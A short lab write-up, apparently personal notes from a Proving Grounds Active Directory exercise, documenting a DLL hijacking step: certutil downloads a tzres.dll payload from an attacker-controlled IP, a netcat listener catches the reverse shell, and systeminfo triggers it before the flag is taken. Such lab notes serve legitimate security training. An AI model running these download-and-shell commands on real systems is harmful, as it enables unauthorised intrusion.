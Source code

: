 ```
certutil -urlcache -split -f http://192.168.45.152/tzres.dll
```

![[PG/Active Directory/attachments/Pasted image 20250707202819.png]]

Set up listener 

```
sudo rlwrap nc -lvnp 8888
```


Run systeminfo command 

```
systeminfo
```

![[PG/Active Directory/attachments/Pasted image 20250707202947.png]]

EPICCCCC

![[PG/Active Directory/attachments/Pasted image 20250707203015.png]]

Successful dll hijacking!!!

Get the flag.

![[PG/Active Directory/attachments/Pasted image 20250707203110.png]]

